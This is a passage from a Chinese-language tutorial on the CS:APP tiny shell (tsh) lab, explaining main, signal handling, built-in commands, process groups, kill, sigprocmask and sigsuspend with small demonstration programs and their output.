exec 之后 SIGCHLD：处理方式 SIG_DFL，被阻塞execve 之后，自定义处理程序被恢复为 SIG_DFL（新程序中已经没有那个函数了），但“忽略”和“阻塞”都原样保留。这解释了实验说明 §8 的两条提示：子进程在 execve 之前要解除对 SIGCHLD、SIGINT、SIGTSTP 的阻塞，否则运行的程序收不到这些信号；还要把 shell 忽略的信号（SIGTTIN、SIGTTOU）恢复为默认，最简单的办法就是 Signal(SIGTTIN, SIG_DFL)。反过来，“阻塞和忽略会保留”正是内置命令 nohup 的实现原理。实验说明 §4 的要求是让命令“block any SIGHUP signals”，tshref 在子进程中用 sigprocmask 阻塞 SIGHUP 之后再 execve（第 2.9 节的 strace 记录）；运行的程序即使给自己发 SIGHUP，信号也只是处于待处理状态，程序照常结束。
常见问题：Signal 和标准库的 signal 有什么区别？
两者的声明形式相同，作用也都是安装处理程序，区别在于语义是否确定。signal 是 C 标准中的老接口，不同系统上的行为不同：有的系统在处理程序被调用一次后就把处理方式恢复为默认，有的不会自动重启被中断的系统调用。Signal 用 sigaction 实现，把语义固定为“处理程序一直有效、处理期间阻塞同种信号、自动重启系统调用”，在任何 Linux 系统上都一样（教材 8.5.5 节“可移植的信号处理”）。
所以在 tsh 中统一用 Signal：安装处理程序、恢复默认（SIG_DFL）、忽略（SIG_IGN）都用它，不要和 signal 混用。
1.15 main 函数（第 115–186 行）#
int
main(int argc, char **argv)
{
char c;
char cmdline[MAXLINE]; /* cmdline for fgets */
int emit_prompt = 1; /* emit prompt (default) */
/* Redirect stderr to stdout (so that driver will get all output
* on the pipe connected to stdout) */
dup2(1, 2);
/* Parse the command line */
while ((c = getopt(argc, argv, "hvp")) != EOF) {
switch (c) {
case 'h': /* print help message */
usage();
break;
case 'v': /* emit additional diagnostic info */
verbose = 1;
break;
case 'p': /* don't print a prompt */
emit_prompt = 0; /* handy for automatic testing */
break;
default:
usage();
}
}
/* Install the signal handlers */
/* These are the ones you will need to implement */
Signal(SIGINT, sigint_handler); /* ctrl-c */
Signal(SIGTSTP, sigtstp_handler); /* ctrl-z */
Signal(SIGCHLD, sigchld_handler); /* Terminated or stopped child */
Signal(SIGTTIN, SIG_IGN);
Signal(SIGTTOU, SIG_IGN);
/* This one provides a clean way to kill the shell */
Signal(SIGQUIT, sigquit_handler);
/* Initialize the job list */
initjobs(job_list);
/* Execute the shell's read/eval loop */
while (1) {
if (emit_prompt) {
printf("%s", prompt);
fflush(stdout);
}
if ((fgets(cmdline, MAXLINE, stdin) == NULL) && ferror(stdin))
app_error("fgets error");
if (feof(stdin)) {
/* End of file (ctrl-d) */
printf ("\n");
fflush(stdout);
fflush(stderr);
exit(0);
}
/* Remove the trailing newline */
cmdline[strlen(cmdline)-1] = '\0';
/* Evaluate the command line */
eval(cmdline);
fflush(stdout);
fflush(stdout);
}
exit(0); /* control never reaches here */
}main 分成四步，图 6 是它的流程。
图 6 main 的流程：准备工作之后进入“提示—读入—求值”的循环
第一步是 dup2(1, 2)，它把描述符 2（标准错误）改成和描述符 1（标准输出）指向同一个打开文件（第 18 讲的 dup2）。测试时驱动程序只读 shell 标准输出连接的那根管道，这样 parseline、unix_error 等写到 stderr 的错误信息也能被驱动程序看到、参与比较。用 handout 的骨架 tsh 验证，即使把 stderr 丢弃，parseline 的报错仍然出现：
$ printf '/bin/cat <\n' | ./tsh -p 2>/dev/null
Error: must provide file name for redirection最后的空行是 main 读到 EOF 时打印的换行。
第二步用 getopt 逐个取出 tsh 自己的命令行选项：-h 打印用法并退出，-v 打开 verbose，-p 不打印提示符。runtrace 运行 tsh 时不加 -p，所以 trace 的输出中有提示符；加 -v 则是 runtrace 的 -V 选项传过来的。
第三步安装信号处理程序，六次 Signal 调用规定了 tsh 对六种信号的反应，见 表 9。
表 9 main 中安装的六种信号处理方式
| 信号 | 什么时候到来 | tsh 的处理方式 | 说明 |
|---|---|---|---|
| SIGINT | 用户按 ctrl-c；trace 中的 SIGINT 命令 | sigint_handler（自己写） | 转发给前台作业所在的进程组 |
| SIGTSTP | 用户按 ctrl-z；trace 中的 SIGTSTP 命令 | sigtstp_handler（自己写） | 转发给前台作业所在的进程组 |
| SIGCHLD | 子进程终止或停止 | sigchld_handler（自己写） | 回收子进程、更新作业列表、打印信息 |
| SIGTTIN | 后台进程组中的进程读终端 | 忽略 | 子进程 execve 前要恢复默认 |
| SIGTTOU | 后台进程组中的进程写终端（终端设置了 tostop 时）或修改终端设置 | 忽略 | 同上 |
| SIGQUIT | 驱动程序要结束 shell | sigquit_handler（已给） | 打印一行信息后 _exit(1) |
SIGTTIN、SIGTTOU 的默认行为是停止进程：当 tsh 自己不在终端的前台进程组中时（例如被另一个 shell 放到后台运行），它读终端、或在某些终端设置下写终端，就会收到这两个信号而被停止，忽略它们可以避免 shell 自己卡住。这一设置会被子进程继承并保留到 execve 之后（第 1.14 节的实验），所以子进程要恢复默认。sigquit_handler 是已经写好的第四个处理程序：
/*
* sigquit_handler - The driver program can gracefully terminate the
* child shell by sending it a SIGQUIT signal.
*/
void
sigquit_handler(int sig)
{
sio_error("Terminating after receipt of SIGQUIT signal\n");
}它是一个完整的处理程序范例：参数 sig 没有用到；只调用异步信号安全的 sio_error。自己写的三个处理程序在形式上与它相同。
最后进入读—求值循环。每一轮先打印提示符并 fflush（stdout 连接管道时是全缓冲的，不 fflush 提示符就不会立即出现）；fgets 读一行到 cmdline；读到文件结尾（用户按 ctrl-d，或驱动程序关闭了管道）时打印一个换行并 exit(0)，这就是 trace00 测试的内容；否则去掉结尾的换行，交给 eval，返回后再 fflush 一次。骨架 tsh 的 eval 什么也不做，所以它对任何命令都只是打印下一个提示符：
$ printf '/bin/echo hi\njobs\n' | ./tsh
tsh> tsh> tsh> 三个提示符分别出现在读 /bin/echo hi、读 jobs 和读到 EOF 之前，最后的换行是 EOF 时打印的。
1.16 csapp.h 与 csapp.c#
handout 附带了教材的 csapp.h 和 csapp.c，但 Makefile 只用 tsh.c 和 fork.c 链接 tsh，tsh.c 也没有 #include "csapp.h"。它们的作用是参考：看 Signal、sio 系列、各种包装函数的写法。对照 tsh.c，可以发现三处异同。
第一，Signal、sio_puts、sio_putl、sio_error 以及它们内部用的 sio_ltoa、sio_reverse 两边逐行相同（只有 sio_strlen 的参数在 tsh.c 中多了 const），所以 csapp.c 的 sio_ltoa 同样不能处理负数；sio_put 只在 tsh.c 中有。第二，两边的 unix_error、app_error 不同：csapp.c 的版本写到 stderr，并且以 exit(0) 退出；tsh.c 的版本写到 stdout，以 exit(1) 退出。第三，csapp.c 中首字母大写的包装函数（Fork、Execve、Waitpid、Kill、Setpgid、Sigprocmask、Sigemptyset、Sigfillset、Sigaddset、Sigsuspend、Open、Close、Dup2 等）在 tsh.c 中都没有，直接调用会编译失败（第 0.1 节的实验）。
包装函数的写法都一样：调用系统调用，失败就调用 unix_error 退出。例如：
void Kill(pid_t pid, int signum)
{
int rc;
if ((rc = kill(pid, signum)) < 0)
unix_error("Kill error");
}
void Sigprocmask(int how, const sigset_t *set, sigset_t *oldset)
{
if (sigprocmask(how, set, oldset) < 0)
unix_error("Sigprocmask error");
return;
}可以把需要的包装函数连同原型复制进 tsh.c，但要先想清楚“失败就退出整个 shell”是否合适。sigprocmask、sigemptyset 失败意味着程序本身有错，退出没有问题；kill 则不同，例如前台作业恰好在用户按下 ctrl-c 的瞬间已经结束，kill 会因“没有这个进程”（ESRCH）失败，这时用 Kill 会让整个 shell 退出，而且 unix_error 中的 fprintf 和 exit 都不是异步信号安全的，不能在处理程序中调用。所以处理程序中的 kill 通常直接调用系统调用，自己检查返回值。
1.17 这些定义怎样用在内置命令上#
把前面的内容放到一起，就能看清每个内置命令需要哪些信息、从哪里取得。表 10 按命令列出 parseline 给了什么、要调用哪些已给的函数、要自己写的部分。
表 10 六个内置命令与已给的定义
| 命令 | parseline 给出 | 已给的函数与常量 | 自己要写的 |
|---|---|---|---|
| quit | builtins = BUILTIN_QUIT | 无 | 结束 shell：exit(0) |
| jobs | builtins = BUILTIN_JOBS；outfile 可能非 NULL | listjobs(job_list, fd)；STDOUT_FILENO | 有 outfile 时用 open 打开、传描述符、再 close；打不开时打印 tshref 的提示语 |
| bg、fg | builtins = BUILTIN_BG/FG；argv[1] 是 "%jid" 或 "pid" 字符串 | getjobjid、getjobpid；FG、BG；fgpid | 把参数换成作业指针；kill(-pid, SIGCONT)；修改 state；bg 打印“[jid] (pid) 命令行”，fg 等待前台作业结束 |
| kill | builtins = BUILTIN_KILL；argv[1] 可能带负号 | getjobjid、getjobpid | 正数找作业、负数找进程组；kill(-pid, SIGTERM)；找不到时打印提示语 |
| nohup | builtins = BUILTIN_NOHUP；argv[1] 起是要运行的程序 | environ；sigprocmask（第 2.5 节） | 与运行普通程序相同，只是子进程在 execve 之前多一步：阻塞 SIGHUP；运行的是 argv[1] |
| （非内置） | builtins = BUILTIN_NONE；argv、infile、outfile、返回值 bg | addjob、pid2jid、fgpid、Signal、environ | fork、setpgid、重定向、execve、阻塞信号、等待前台作业 |
以 bg、fg、kill 共同的第一步为例：参数是一个字符串，以 % 开头的是作业号，否则是进程号。判断第一个字符、用 atoi 把其余部分转成整数，再交给 getjobjid 或 getjobpid，返回 NULL 就说明找不到：
struct job_t *job;
if (tok.argv[1][0] == '%')
job = getjobjid(job_list, atoi(tok.argv[1] + 1)); /* "%2"：作业号 2 */
else
job = getjobpid(job_list, atoi(tok.argv[1])); /* "12345"：进程号 */
if (job == NULL) {
/* 打印 tshref 的提示语，见下表 */
}tok.argv[1] + 1 是指针运算：跳过第一个字符 %，指向后面的数字。用之前还要先确认 argv[1] 不是 NULL（用户只输入了 bg）。
提示语必须与 tshref 逐字相同。表 11 是在默认环境上对 tshref 输入各种有误的参数得到的输出，可以直接作为对照。
表 11 tshref 对有误参数和打不开的文件的提示语（默认环境实测，sim/e7_tshref）
| 输入 | tshref 的输出 |
|---|---|
| bg | bg command requires PID or %jobid argument |
| fg | fg command requires PID or %jobid argument |
| kill | kill command requires PID or %jobid argument |
| bg abc | bg: argument must be a PID or %jobid |
| fg %abc | %abc: No such job |
| bg %5（没有这个作业） | %5: No such job |
| fg 99999（没有这个进程） | (99999): No such process |
| kill %3 | %3: No such job |
| kill 99999 | (99999): No such process |
| kill %-3 | %-3: No such process group |
| kill -99999 | (99999): No such process group |
| nohup | (null): Command not found |
| /bin/cat < nofile.txt | Error: nofile.txt No such file or directory |
| jobs > /nonexistdir/x | Error: /nonexistdir/x Couldn't open file |
| ./nonexist | ./nonexist: Command not found |
其中有几处细节容易忽略，fg %abc 报的是“No such job”而不是参数格式错误；kill -99999 的输出中括号里没有负号；单独的 nohup 会把 NULL 当作程序名，输出“(null): Command not found”。这些都要按 tshref 的输出复现。
常见问题：内置命令为什么不能像普通程序那样 fork 一个子进程来做？
因为内置命令要改变的是 shell 自己的状态。quit 要结束的是 shell 进程本身；jobs 要读的作业列表、bg 和 fg 要修改的作业状态，都在 shell 进程的全局变量 job_list 中。如果在子进程中执行，子进程修改的只是自己那份 job_list 的副本（fork 之后父子进程的内存相互独立），子进程退出后一切修改都消失，shell 的作业列表没有任何变化。
所以 eval 的第一件事是看 builtins：是内置命令就在 shell 进程中直接执行，然后返回读下一行；不是内置命令才 fork。
1.18 速查：tsh.c 中已给的全部定义#
表 12 把第 19–109 行的每个名字压缩成一行：它是什么，写代码时在哪里用。
表 12 tsh.c 第 19–109 行的定义速查
| 名字 | 种类 | 含义 | 写代码时的用法 |
|---|---|---|---|
| MAXLINE | 常量 1024 | 一行命令、一个命令行文本的最大长度 | 自己定义缓冲区时用作大小 |
| MAXARGS | 常量 128 | argv 数组的大小 | 一般用不到 |
| MAXJOBS | 常量 16 | 作业列表的槽位数 | 自己遍历 job_list 时作循环上限 |
| MAXJID | 常量 1<<16 | 作业号上限，从未使用 | 不要用；没有括号，放进表达式会出错 |
| UNDEF、FG、BG、ST | 常量 0–3 | 作业状态：空槽位、前台、后台、已停止 | addjob 的第三个参数；读写 job->state |
| ST_NORMAL 等三个 | 常量 0–2 | parseline 内部的解析状态 | 用不到；与作业状态 ST 无关 |
| environ | 全局变量 char ** | 当前进程的环境变量表 | execve 的第三个参数 |
| prompt | 全局数组 | 提示符 "tsh> " | 不要修改 |
| verbose | 全局 int | 是否带 -v 运行 | 调试输出前判断它 |
| nextjid | 全局 int | 下一个要分配的作业号 | 不要直接修改，由 addjob、deletejob 维护 |
| sbuf | 全局数组 | 拼接消息用的公共缓冲区 | 可用可不用；不能在处理程序中配合 sprintf 使用 |
| struct job_t | 类型 | pid、jid、state、cmdline | 通过 getjobpid、getjobjid 拿到指针后用 -> 访问 |
| job_list | 全局数组 | 16 个 struct job_t，pid 为 0 表示空槽位 | 作为作业列表函数的第一个参数 |
| struct cmdline_tokens | 类型 | argc、argv、infile、outfile、builtins | eval 中定义局部变量 tok，传 &tok 给 parseline |
| enum builtins_t | 类型 | BUILTIN_NONE、QUIT、JOBS、BG、FG、KILL、NOHUP | switch (tok.builtins) |
| handler_t | 函数类型 | “参数 int、无返回值”的函数 | handler_t * 是处理函数的指针 |
| parseline | 函数 | 解析命令行 | eval 骨架已调用；先查 −1，再查 argv[0] |
| addjob、deletejob | 函数 | 加入、删除作业 | fork 之后 addjob；回收子进程后 deletejob |
| fgpid | 函数 | 前台作业的 pid，没有为 0 | 转发 ctrl-c、ctrl-z；等待前台作业 |
| getjobpid、getjobjid | 函数 | 按 pid、jid 找作业，没有为 NULL | bg、fg、kill 的参数；处理程序中按 pid 找作业 |
| pid2jid | 函数 | pid 换成 jid，没有为 0 | 打印“[jid] (pid)” |
| listjobs | 函数 | 把作业列表写到描述符 | 内置命令 jobs |
| unix_error、app_error | 函数 | 打印错误后 exit(1) | 主程序中系统调用失败；不能用在处理程序中 |
| sio_puts、sio_putl、sio_put | 函数 | 只用 write 的输出；sio_put 只认 %d、%% | 处理程序中的所有输出 |
| sio_error | 函数 | 输出后 _exit(1) | 处理程序中出错 |
| Signal | 函数 | 用 sigaction 安装处理方式，返回原来的 | 安装处理程序；子进程中把 SIGTTIN、SIGTTOU 恢复为 SIG_DFL |
第二部分 eval 与处理程序要用的系统调用#
2.1 系统调用的共同规矩：返回值与 errno#
Unix 的系统调用几乎都遵守同一个约定：成功时返回 0 或一个有意义的非负数（新进程的 pid、新的描述符……），失败时返回 −1，并把出错原因的编号存进全局变量 errno。errno.h 为这些编号定义了名字，tsh 中最常遇到的几个列在 表 13 中。
表 13 tsh 中常见的 errno
| 名字 | 含义 | tsh 中什么时候出现 |
|---|---|---|
| ENOENT | 文件或目录不存在 | execve 的程序不存在；输入重定向的文件不存在 |
| EACCES | 权限不足 | execve 的文件没有执行权限，或者是一个目录 |
| ESRCH | 没有这个进程（进程组） | kill 一个已经结束的进程或已经不存在的进程组 |
| ECHILD | 没有子进程 | waitpid 时已经没有任何（符合条件的）子进程 |
| EINTR | 系统调用被信号打断 | 不带 SA_RESTART 安装处理程序时的 read、waitpid；sigsuspend 每次都以它返回 |
所以检查一个系统调用的标准写法是“调用、看返回值是否小于 0、失败时根据 errno 处理”。strerror(errno) 把编号翻译成一句英文，unix_error 打印的就是它（第 1.12 节）。
errno 是全局变量，信号处理程序中调用的 waitpid、kill 失败时也会改写它。如果处理程序恰好打断了主程序中“系统调用失败、正要读 errno”的那一刻，主程序读到的就是处理程序留下的值。教材 8.5.5 节的办法是在处理程序开头把 errno 存进局部变量，返回前再恢复：
void handler(int sig)
{
int olderrno = errno;
/* ... 处理程序的工作 ... */
errno = olderrno;
}2.2 fork 与 execve：创建子进程、运行程序#
pid_t fork(void);
int execve(const char *path, char *const argv[], char *const envp[]);fork 调用一次返回两次：在父进程中返回子进程的 pid，在子进程中返回 0，失败时返回 −1（只在父进程中返回，也不会创建子进程）。子进程得到父进程的一份副本，包括全局变量 job_list、信号处理方式、阻塞的信号集合和打开的描述符。tsh 用 fork.c 替换了 fork（第 0.1 节），fork 返回后父子两边可能随机睡眠最多 0.1 秒，所以不能假设哪一边先运行。
execve 在当前进程中装入并运行另一个程序：path 是程序文件的路径，argv 是参数数组（以 NULL 结尾，argv[0] 按惯例是程序名），envp 是环境变量表，在 tsh 中就是 environ（第 1.6 节）。parseline 给出的 tok.argv 正好可以直接使用：execve(tok.argv[0], tok.argv, environ)。tsh 没有搜索路径，用户必须写出完整路径（/bin/ls 而不是 ls）。
execve 成功时不返回：当前进程的代码已经被换成了新程序，调用 execve 之后的语句再也不会执行。所以只要 execve 返回了，就一定是失败了，不必检查返回值是不是 −1。下面的程序依次运行三个不能运行的路径：
static void try(char *path)
{
char *argv[] = {path, NULL};
pid_t pid = fork();
if (pid == 0) {
execve(path, argv, environ); /* 成功时不返回；返回就一定是失败了 */
printf(" execve(\"%s\") 失败：errno = %d（%s）\n", path, errno, strerror(errno));
exit(1);
}
waitpid(pid, NULL, 0);
}
...
try("./nonexist"); /* 文件不存在 */
try("./notexec.txt"); /* 存在，但没有执行权限 */
try("/tmp"); /* 是目录 */ execve("./nonexist") 失败：errno = 2（No such file or directory）
execve("./notexec.txt") 失败：errno = 13（Permission denied）
execve("/tmp") 失败：errno = 13（Permission denied）tshref 对这种情况打印“程序名: Command not found”（第 1.17 节的提示语表），然后子进程退出。子进程必须退出：它是 shell 的一个副本，execve 失败后如果继续往下执行，就会回到 eval 的调用者 main，开始和真正的 shell 抢着读下一行命令。程序的后半部分模拟了这种错误，在一个两轮的“读—求值循环”中，子进程 execve 失败后忘了 exit：
for (int line = 1; line <= 2; line++) { /* 模拟 shell 的读-求值循环 */
pid_t pid = fork();
if (pid == 0) {
char *a[] = {"./nonexist", NULL};
execve(a[0], a, environ);
/* 这里本应 exit(1)，却忘了 */
} else {
waitpid(pid, NULL, 0);
}
printf(" %s处理完第 %d 行\n",
getpid() == shell ? "原来的 shell " : " 多出来的进程 ", line);
fflush(stdout);
}--- 子进程 execve 失败后忘了 exit ---
多出来的进程 处理完第 1 行
多出来的进程 处理完第 2 行
多出来的进程 处理完第 2 行
原来的 shell 处理完第 1 行
多出来的进程 处理完第 2 行
原来的 shell 处理完第 2 行只有两行命令，却多出了三个进程、四行输出：每个没有退出的子进程都成了一个新的“shell”，下一轮又各自 fork。在 tsh 中，这表现为输入 quit 之后 shell 并没有退出，或者同一条命令的输出出现了好几次。
2.3 进程组与 setpgid#
每个进程都属于一个进程组，进程组号（pgid）通常等于组中某个进程的 pid。fork 出的子进程默认和父进程在同一个组中；setpgid(0, 0) 让调用者自己成立一个新组，组号等于自己的 pid（两个 0 分别表示“调用者自己”和“用调用者的 pid 作组号”）。新组中的进程再 fork，孙进程也在这个组中。
tsh 需要进程组，是因为终端上的 ctrl-c、ctrl-z 由内核发给终端前台进程组中的所有进程。从 bash 中启动 tsh 时，tsh 在终端的前台进程组里；如果 tsh 创建的子进程也留在这个组中，按一次 ctrl-c，内核会把 SIGINT 同时发给 tsh 和所有作业，后台作业也会被终止。实验说明 §8 的做法是：子进程在 execve 之前调用 setpgid(0, 0)，每个作业一个自己的进程组，终端的前台进程组中只剩下 tsh 一个进程；tsh 收到 SIGINT 后，在 sigint_handler 中再把它转发给前台作业所在的进程组（图 7）。
图 7 进程组与 ctrl-c 的转发：每个作业自成一组，内核只把 SIGINT 发给 tsh，tsh 再用 kill(-pid, SIGINT) 转发给前台作业的整个进程组
作业的 pid 就是它的进程组号，所以“前台作业的进程组”可以直接用 -fgpid(job_list) 表示。下面的程序验证子进程、孙进程的进程组，以及向整个组发信号的效果：
child = fork();
/* 子进程：先建自己的进程组，再生一个孙进程 */
if (child == 0) {
setpgid(0, 0);
printf("子进程：pid = %d，进程组 = %d\n", (int)getpid(), (int)getpgrp());
if ((grand = fork()) == 0) {
printf("孙进程：pid = %d，进程组 = %d（继承自子进程）\n",
(int)getpid(), (int)getpgrp());
pause();
_exit(0);
}
...
}
...
printf("shell：kill(-%d, SIGINT)\n", (int)child);
kill(-child, SIGINT); /* 负数：发给进程组 child 中的每个进程 */
reap("一个进程");
reap("另一个进程");
/* 信号 0：只检查进程是否存在，不真的发信号 */
r = kill(child, 0);
...
r = kill(-child, SIGINT);shell：pid = 933，进程组 = 566
子进程：pid = 934，进程组 = 934
孙进程：pid = 935，进程组 = 934（继承自子进程）
shell：kill(-934, SIGINT)
回收一个进程（pid 934）：被信号 2 终止
回收另一个进程（pid 935）：被信号 2 终止
shell：kill(934, 0) 返回 -1，errno = No such process
shell：kill(-934, SIGINT) 返回 -1，errno = No such process一次 kill(-934, SIGINT) 终止了子进程和孙进程。trace19、trace20 中的 mysplit 会 fork 出孙进程，用 kill(pid, SIGINT) 只能终止子进程，孙进程会留下来，驱动程序专门检查这一点。
2.4 kill：给进程或进程组发信号#
int kill(pid_t pid, int sig);kill 的名字容易误解，它的作用是“发信号”，发 SIGCONT 是让进程继续，发 0 号信号什么也不做。第一个参数的取值决定发给谁，见 表 14。
表 14 kill 的第一个参数
| pid | 发给谁 | tsh 中的用途 |
|---|---|---|
| pid > 0 | 进程号为 pid 的那个进程 | 只想发给作业的那个子进程时 |
| pid < 0 | 进程组号为 −pid 的组中所有进程 | 转发 ctrl-c、ctrl-z；bg、fg 发 SIGCONT |
| pid = 0 | 调用者自己所在的进程组，包括调用者自己 | 不要用 |
| sig = 0 | 不发信号，只检查目标是否存在 | 判断进程是否还在 |
pid 为 0 这一行是 tsh 中一个隐蔽的陷阱。fgpid 在没有前台作业时返回 0，如果 sigint_handler 不加判断就执行 kill(-fgpid(job_list), SIGINT)，实际调用的是 kill(0, SIGINT)，信号发给了 tsh 自己所在的进程组，tsh 自己就被终止了：
/* 一个小 shell：自成一组，再带一个后台子进程 */
if (sh == 0) {
setpgid(0, 0);
if (fork() == 0) { pause(); _exit(0); }
pid_t fg = 0; /* 假设 fgpid 返回 0：当前没有前台作业 */
printf("小 shell：fgpid 返回 0，仍然执行 kill(-fg, SIGINT)\n");
fflush(stdout);
kill(-fg, SIGINT);
printf("这一行不会出现\n");
_exit(0);
}小 shell：fgpid 返回 0，仍然执行 kill(-fg, SIGINT)
小 shell 自己被信号 2 终止了实验说明 §5 的要求是“没有前台作业时，信号不起作用”。第 2.9 节用 strace 观察 tshref 可以看到，它在没有前台作业时收到 SIGINT，不调用 kill。
kill 失败的常见原因是目标已经不存在（ESRCH），例如前台作业恰好在 ctrl-c 到达之前结束了。这不是 shell 的错误，不能因此退出 shell；内置命令 kill、fg、bg 找不到进程时，则要打印 tshref 的提示语（第 1.17 节）。
常见问题：转发 ctrl-c 时，为什么用 -pid 而不是 pid？
因为一个作业可能不止一个进程。作业中的程序可能自己再 fork（trace19 的 mysplit 就是这样），这些孙进程与作业在同一个进程组中，但 pid 各不相同。kill(pid, SIGINT) 只发给作业的那个子进程，孙进程不会收到；kill(-pid, SIGINT) 发给整个进程组，效果才和真正的终端 ctrl-c 一样。
这要求每个作业确实自成一组，组号等于作业的 pid，也就是子进程在 execve 之前调用了 setpgid(0, 0)。
2.5 信号集与 sigprocmask：阻塞信号#
“阻塞”一个信号，意思是它到达后暂不处理，处于待处理状态，直到解除阻塞的那一刻才调用处理程序（第 1.14 节）。每个进程有一个阻塞集合，用 sigprocmask 修改；集合的类型是 sigset_t，用 表 15 中的五个函数操作。
表 15 信号集的操作函数（都在 signal.h 中）
| 函数 | 作用 | 说明 |
|---|---|---|
| sigemptyset(&set) | set = {} | sigset_t 变量使用前必须先初始化 |
| sigfillset(&set) | set = {所有信号} | 处理程序中临时阻塞所有信号时用 |
| sigaddset(&set, SIGCHLD) | 加入一个信号 | 一次只能加一个，要加三个就调用三次 |
| sigdelset(&set, SIGCHLD) | 删除一个信号 | |
| sigismember(&set, SIGCHLD) | 是否在集合中 | 在返回 1，不在返回 0 |
int sigprocmask(int how, const sigset_t *set, sigset_t *oldset);how 决定怎样修改阻塞集合：SIG_BLOCK 把 set 中的信号加入阻塞集合，SIG_UNBLOCK 把它们移出阻塞集合，SIG_SETMASK 把阻塞集合整个替换为 set。oldset 不为 NULL 时，修改之前的阻塞集合被存进去，之后用 SIG_SETMASK 把它放回去，就精确地恢复了原状。下面的程序阻塞 SIGCHLD 后创建一个立即结束的子进程，再恢复：
sigemptyset(&mask); /* mask = {} */
sigaddset(&mask, SIGCHLD); /* mask = {SIGCHLD} */
/* 阻塞集合 |= mask；原来的阻塞集合存进 prev */
sigprocmask(SIG_BLOCK, &mask, &prev);
printf("已阻塞 SIGCHLD，prev 中 %s SIGCHLD\n",
sigismember(&prev, SIGCHLD) ? "有" : "没有");
if (fork() == 0)
/* 子进程立即结束，SIGCHLD 马上就会发出 */
_exit(0);
sleep(1);
show_pending("子进程结束 1 秒后");
printf("调用 sigprocmask(SIG_SETMASK, &prev, NULL) 恢复原来的阻塞集合\n");
fflush(stdout);
sigprocmask(SIG_SETMASK, &prev, NULL); /* 处理程序在这个调用返回之前运行 */
printf("sigprocmask 已返回\n");已阻塞 SIGCHLD，prev 中 没有 SIGCHLD
子进程结束 1 秒后：SIGCHLD 待处理
调用 sigprocmask(SIG_SETMASK, &prev, NULL) 恢复原来的阻塞集合
[SIGCHLD 处理程序运行]
sigprocmask 已返回
恢复之后：SIGCHLD 不待处理子进程早就结束了，SIGCHLD 却一直等着（sigpending 查到它处于待处理状态），直到 sigprocmask 解除阻塞，处理程序才运行，而且是在 sigprocmask 返回之前运行。
tsh 用这个机制解决作业列表的竞争。如果不阻塞，可能发生 图 8 上半部分的情形：fork 之后子进程先运行并立即结束，sigchld_handler 回收它并调用 deletejob，可此时它还不在作业列表中；然后 eval 才调用 addjob，把一个已经不存在的进程加进了列表，这个作业永远不会被删除。实验说明 §8 给出的顺序是：fork 之前阻塞 SIGCHLD、SIGINT、SIGTSTP；父进程 addjob 之后再恢复；子进程继承了阻塞集合，要在 execve 之前恢复（第 1.14 节的实验表明，阻塞集合会被 execve 保留）。这样 SIGCHLD 即使早到，也要等 addjob 完成后才被处理（图 8 下半部分）。
图 8 addjob 与 deletejob 的竞争：不阻塞时，子进程可能在 addjob 之前就被回收；fork 之前阻塞 SIGCHLD，处理就推迟到 addjob 之后
内置命令修改作业列表（bg、fg 改 state）时同样要阻塞这三个信号，修改完再恢复，否则 sigchld_handler 可能在修改到一半时插进来，第 2.9 节可以看到 tshref 正是这样做的。
2.6 sigsuspend：等待前台作业结束#
int sigsuspend(const sigset_t *mask);前台作业运行时，eval 要等它结束（或被停止）之后才能返回、让 main 打印下一个提示符。按实验说明 §7 的要求，回收子进程只在 sigchld_handler 中进行，eval 不调用 waitpid，它只需要等到“前台作业已经不在 FG 状态”这个条件成立。条件由 sigchld_handler 改变，eval 要做的是：条件不成立时睡眠，等一个信号把自己唤醒，醒来后再检查。
用 pause 等待有一个竞争：检查条件和开始睡眠是两个动作，如果信号恰好在两者之间到达，处理程序已经运行完了，pause 开始睡眠后再也等不到信号。sigsuspend 把“把阻塞集合换成 mask”和“睡眠到有信号被处理”合成一个原子操作，返回时再把阻塞集合换回调用之前的值。典型的写法（教材 8.5.7 节）是：
sigprocmask(SIG_BLOCK, &mask, &prev); /* 阻塞 SIGCHLD 等信号 */
...
/* 检查条件时信号被阻塞，不会在检查之后、睡眠之前插进来 */
while (条件不成立)
/* 原子地解除阻塞并睡眠；处理程序运行后返回，再检查条件 */
sigsuspend(&prev);
sigprocmask(SIG_SETMASK, &prev, NULL);下面的程序故意让子进程在检查条件之前就结束，对比两种写法。pause 版本是“检查、解除阻塞、pause”三步分开的写法：
/* 处理程序与主程序共享的标志，相当于 fgpid() == 0 */
static volatile sig_atomic_t fg_done = 0;
static void chld(int sig)
{
(void)sig;
while (waitpid(-1, NULL, WNOHANG) > 0)
fg_done = 1;
}
...
sigprocmask(SIG_BLOCK, &mask, &prev); /* fork 之前阻塞 SIGCHLD */
if (fork() == 0)
_exit(0);
usleep(200000); /* 子进程此时已经结束，SIGCHLD 待处理 */
alarm(2);
if (use_suspend) {
while (!fg_done)
/* 原子地：换成 prev（不阻塞 SIGCHLD）并等待 */
sigsuspend(&prev);
sigprocmask(SIG_SETMASK, &prev, NULL);
} else {
/* 检查时 SIGCHLD 仍被阻塞：fg_done 还是 0 */
while (!fg_done) {
sigprocmask(SIG_SETMASK, &prev, NULL); /* 解除阻塞：处理程序就在此刻运行 */
pause(); /* 信号已经处理完了，pause 再也等不到 */
sigprocmask(SIG_BLOCK, &mask, NULL);
}
sigprocmask(SIG_SETMASK, &prev, NULL);
}pause 版本：
2 秒后仍在等待：卡住了，由 SIGALRM 结束
sigsuspend 版本：
等到了：fg_done = 1pause 版本永远等不到（程序用 alarm 在 2 秒后强行结束），sigsuspend 版本立即返回。实验说明 §7 还禁止用 while (1); 或循环里的 sleep 等待：前者空转浪费 CPU，后者在作业结束后还要多等一段时间，而且同样有竞争。
常见问题：等待前台作业时，条件应该写成什么？
写成“前台作业是否还在前台”，而不是“前台作业是否已经终止”。前台作业被 ctrl-z 停止时，sigchld_handler 会把它的 state 改成 ST，作业还在列表中，但已经不在前台，eval 也应该返回、打印下一个提示符；如果条件写成“作业被删除了”，ctrl-z 之后 shell 就会一直卡住。用已给的函数表达，就是在 fgpid(job_list) 不再返回这个作业的 pid（或者返回 0）时停止等待。
另外，sigchld_handler 只能删除作业或修改 state，不能代替 eval 打印提示符；它和 eval 之间只通过作业列表交流。
2.7 waitpid：回收子进程#
pid_t waitpid(pid_t pid, int *statusp, int options);waitpid 等待子进程状态的变化，并把子进程“回收”掉：子进程终止后会变成僵死进程，只有父进程对它调用 waitpid，它才从系统中彻底消失。三个参数中，pid 为 −1 表示“任何一个子进程”，为正数表示“这个子进程”；statusp 指向的 int 中存放状态的详细信息；options 决定等什么、要不要等，取值见 表 16；返回值与 status 的解读见 表 17。
表 16 waitpid 的 options
| options | 含义 |
|---|---|
| 0 | 阻塞，直到某个子进程终止 |
